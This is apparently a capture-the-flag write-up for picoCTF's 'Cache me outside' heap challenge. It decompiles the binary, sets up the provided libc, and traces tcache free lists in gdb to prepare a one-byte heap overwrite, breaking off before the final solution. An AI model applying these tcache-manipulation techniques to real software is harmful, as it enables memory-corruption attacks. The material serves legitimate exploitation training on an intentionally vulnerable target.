# Cache me outside

In this challenge we get presented with another remote instance of a program running. First we may start interacting with it:

```
$ nc mercury.picoctf.net 49825
You may edit one byte in the program.
Address: 0
Value: 0
t help you: this is a random string.

```

We are prompted with a request to edit one byte of the program and are asked to enter an address and a value, get a cryptic response and the program exits. To understand this better we can decompile the program in Ghidra (or any other decompiler). The first output of the <main> function in the ELF can be found in `heapedit_raw.c`. This is obviously not compilable C-code yet, we need to tweak it a bit to understand better what it is doing. Up to line 19 it is all variable initializations. 

After that we see that the code opens a file called `flag.txt` using <fopen> and stores it into a variable using <fgets>. We can rename variables `local_90` to file_pointer and `local_58` to flag_buffer as this is where the flag is stored. In Ghidra this can be done by clicking on the variable and pressing the `l`-key, then typing the new variable name into the appearing prompt.

Next up we see that a series of 3 64bit hex values are stored into variables `local_78`, `local_70` and `local_68`, followed by storing a 0 into `local_60`. If we hover over the first one of the values with our cursor in Ghidra we can see it showing ` si sith`, meaning that these are actually parts of a strings in reverse order, hence also the `local_60 = 0` as strings in C are `\0` terminated. As we have 3 x 8 bytes + 1 bayte for the NULL terminator we know that this is a 25 byte string so we can retype the variable to `char[25]`, This will however not give us the desired result either. We can for now simply hover over the three 64bit string snippets and comnclude that the entire thing reads:

```
This is a random string.
```

which is actually part of the prompt we received after typing in some random address and value.

Next we store the value 0 into a variable called `local_a0` so we can rename this to `zero`. Afterwards we enter a for-loop with variable `local_a4` being incremented, so we can rename this simply to `i`. In that loop we call <malloc> on each iteration, allocating 128 bytes on the heap each time. Then we perform a check, if our zero variable still contains the value 0 and if this is the case we store the pointer to our allocated memory into that variable. So essentially our zwero variable will be overwritten with the address of the first allocated 128 bytes and then left untouched. We will rename our `local_98` variable to `heap_address`. After running through the loop 7 times the `zero` variable now contains the address of the first allocation and our variable `heap_address` the adress of the final allocation. Next we write another string into `heap_address`, namely 

```
Congrats, your flag is:
```

And after wards using <strcat> to concatenate the flag to that string. So `heap_address` can actually be called `winning_string` and we can rename `zero` to `first_heap_allocation`

Next we allocate another 128 bytes on the heap, store the string:

```
Sorry! This wont help you:
```

into it anc concatenate our random_string to it. We can rename this to `loosing_string`.

Next we free both `winning_string` and `loosing_string`.

Then we go to the actual pompt from the beginning, asking for an address and a value and storing them into variables `local_a8` and `local_a9`, which we can respectively rename to `address` and `value`. To write our input into these variables we use <scanf> with a format string, which Ghidra can not interpret properly and just presents ud with the address of the format string in the ELF. We can double click on each of the addresses and see their contents in the data section. The first on is `%d` which (including the NULL terminator) is a 3 byte string so we can retype the variable to `char[3]`. The second one is ` %c` which we can thus retype to `char[4]`.

Then finally we add the value that was saved into address to our first heap allocation pointer and then storing the value that we entered at that new address. So we will have to find the correct value to write into that address to trigger our program to print our `winning_string`.

First download `pwninit`
```
wget https://github.com/io12/pwninit/releases/download/3.3.0/pwninit
sudo chmod +x pwninit
./pwninit
```

This will download the correct loader for our program to run with the provided libc. It will also create a heapedit patched and solve.py which we can remove.
```
rm heapedit_patched
rm solve.py
```
Next we can modify the heapedit ELF such that it uses the loader that `pwninit` has just downloaded for us. 

```
patchelf --set-interpreter ./ld-2.27.so ./heapedit
```
Next we need to create a flag file, otherwise our program will SEGFAULT as it will try to read from the file, fopen will retrun NULL as there is no such file and when trying to dereference it in the fgets function call we sill get our SEGFAULT. Afterwards we can run out program normally. In some cases it may be required to set the LD_PRELOAD environment variable to the provided libc binary.

```
echo "picoCTF{test}" > flag.txt
LD_PRELOAD=./libc.so.6 ./heapedit
echo "source ~/.gef-2b72f5d0d9f0f218a91cd1ca5148e45923b950d5.py" > ~/.gdbinit
gdb heapedit
gef➤  break *main
gef➤  r
gef➤  heap chunks
```



Next we retreive the address of the <setbuf> call from GHIDRA and set a breakpoint there
```
gef➤  break *0x0040083d
gef➤  c
```
We can see that there is still no heap. The same thing we do with the <fopen> call
```
gef➤  break *0x00400850
gef➤  c
```
we still get no heap. However if we take the address of the next instruction from GHIDRA we can see that:
```
gef➤  break *0x00400855
gef➤  c
```


We can see that we created 4 chunks on the heap. The bottom most chunk is the tcache, which sits at address 0x602010 and is of size=0x250, which is 592 in decimal, equating approximately to `8*64 + 64 = 576` which is an array of 64 pointers of 8 bytes each and an array of 64 counts of 1 byte each. The remaining 16 bytes are for storing the size of the chunk and some flags, which we can see by displaying the content of the heap at address of the tcache -16 and the metadata of said chunk:
```
gef➤  x/74gx 0x602000
0x602000:       0x0000000000000000      0x0000000000000251
0x602010:       0x0000000000000000      0x0000000000000000
0x602020:       0x0000000000000000      0x0000000000000000
0x602030:       0x0000000000000000      0x0000000000000000
0x602040:       0x0000000000000000      0x0000000000000000
0x602050:       0x0000000000000000      0x0000000000000000
0x602060:       0x0000000000000000      0x0000000000000000
0x602070:       0x0000000000000000      0x0000000000000000
0x602080:       0x0000000000000000      0x0000000000000000
0x602090:       0x0000000000000000      0x0000000000000000
0x6020a0:       0x0000000000000000      0x0000000000000000
0x6020b0:       0x0000000000000000      0x0000000000000000
0x6020c0:       0x0000000000000000      0x0000000000000000
0x6020d0:       0x0000000000000000      0x0000000000000000
0x6020e0:       0x0000000000000000      0x0000000000000000
0x6020f0:       0x0000000000000000      0x0000000000000000
0x602100:       0x0000000000000000      0x0000000000000000
0x602110:       0x0000000000000000      0x0000000000000000
0x602120:       0x0000000000000000      0x0000000000000000
0x602130:       0x0000000000000000      0x0000000000000000
0x602140:       0x0000000000000000      0x0000000000000000
0x602150:       0x0000000000000000      0x0000000000000000
0x602160:       0x0000000000000000      0x0000000000000000
0x602170:       0x0000000000000000      0x0000000000000000
0x602180:       0x0000000000000000      0x0000000000000000
0x602190:       0x0000000000000000      0x0000000000000000
0x6021a0:       0x0000000000000000      0x0000000000000000
0x6021b0:       0x0000000000000000      0x0000000000000000
0x6021c0:       0x0000000000000000      0x0000000000000000
0x6021d0:       0x0000000000000000      0x0000000000000000
0x6021e0:       0x0000000000000000      0x0000000000000000
0x6021f0:       0x0000000000000000      0x0000000000000000
0x602200:       0x0000000000000000      0x0000000000000000
0x602210:       0x0000000000000000      0x0000000000000000
0x602220:       0x0000000000000000      0x0000000000000000
0x602230:       0x0000000000000000      0x0000000000000000
0x602240:       0x0000000000000000      0x0000000000000000
gef➤  heap chunk 0x602010
Chunk(addr=0x602010, size=0x250, flags=PREV_INUSE)
Chunk size: 592 (0x250)
Usable size: 584 (0x248)
Previous chunk size: 0 (0x0)
PREV_INUSE flag: On
IS_MMAPPED flag: Off
NON_MAIN_ARENA flag: Off
```
Now we can go forth to the point where we executed the <fgets> function call (one instruction after the fgets call):
```
gef➤ break *0x400874
gef➤ c
```



We can see that there is now an additional chunk containing the contents of our flag.txt file. Now we can move on to our first call of <malloc> in line 30:

```
gef➤ break *0x004008c3
gef➤ c
```



Which gives us yet another chunks of size 0x90 at address 0x6034a0. We requested 0x80 bytes in our call of <malloc> and there are 16 bytes of metadata, which makes for the 0x90.

Now we start storing our string into that empty chunk, which we can see by jumping to the address after storing the final 0x0, essentially the line where we call <strcat>:

```
gef➤ break *0x00400916
gef➤ c
```


We can see that exactly the string that we wanted to store in our heap memory chunk is there. Now let's run the <strcat> and see how it looks afterwards:

```
gef➤ break *0x0040092c
gef➤ c
```


And we can see that our flag has joined ranks with the "Congrats! Your flag is:" We can now assume that the next 6 malloc do exactly the same so we skip over all of them and check the contets of our heap afterwards. The address we jump to is that of the next <malloc> call in line :

```
gef➤ break *0x0040094
gef➤ c
```


We can see that we now have 7 identical chunks allocated on the heap with content: "Congrats! Your flag is:picoCTF{test}" stored inside. Now we execute the next <malloc>, after which we have an additional chunk with the loosing message inside it

```
gef➤ break *0x00400999
gef➤ c
```


Now we get to the actual tcache part as we are about to call the first <free> within the program.

```
gef➤ break *0x004009a8
gef➤ c
```


We can see that the first 8 bytes of the chunk we freed, the last one with the winning message has been set to zero. If we now look at our tcache we see two things have changed:



Before, all bytes were set to zero, now the 8th byte of the beginning of the tcache has been set to 0x1 and the 8 bytes at address offset 0x78 has been set to the address of the freed chunk. Let's call the second <free> to unserstand how the tcache really works:

```
gef➤ break *0x004009b4
gef➤ c
```


we can see that in the second chunk we freed the initial 8 bytes were not set to zero, even though they have been changed. let's look in detail at the chunks that we freed and at out tcache:



We can see that in the chunk we freed the first 8 bytes are still zero. In the tcache the byte that had been set to 0x1 has been incremented further. This number actually keeps track of the number of frees called on chunks of allocation size 0x80. The 7 bytes below it likewise keep track of the frees of allocation sizes 0x10 to 0x70. There are actually 64 bytes reserved for tracking frees of chunk sizes 0x10 to 0x400. The next 64 qwords in the tcache are reserved to store the address of the chunk thst has been freed last. The first qword in this chunk will then be overwritten to contain the address of the chunk freed before it. in The first freed chunk the fiorst qword will be set to all zeros and thus is effectively a NULL pointer. This way we create a singly linked list that connects all freed chunks of a specific size. Whenever we want to allocate a chunk of that size again we can refer to the tcache and he can immediately hand us a free chunk which is more efficient than searching for free chunks on the heap whenever calling <malloc> or rejecting these chunks alltogether as we would if every <malloc> just adds another chunk to the top of the heap. We can visualize the freshly initialized tcache something like this:



Now after all our <malloc>-calls the heap will look something like this:



And after our frees we can envision it something like this:

Now as we free the two chunks we get something like:



Now as we go back to the program we get asked to hand in some user input modifying one byte on the heap, setting it to a specific value. What the program will do then is adding the `address` value we enter to the address of the first <malloc>-ed chunk (chunk_1 in the drawing) and write the entered `value` to that new address. It will then <malloc> another chunk and print it's contents without modifying them any further. What we saw right in the beginning of this incredibly concise writing was that if we simply enter zero for bothn address and value we would getr the output:

```
t help you: this is a random string.
```

What that is is actually the contents of the chunk at 0x603800, where the first qword was overwritten with the NULL pointer that terminates the linked list. So the when we call <malloc(0x80)> and we have previously called <free> on several chunks of the same size the <malloc> call will return the pointer that is stored inside the tcache for that size, decrement the count and change the pointer to the nex counter in the list:

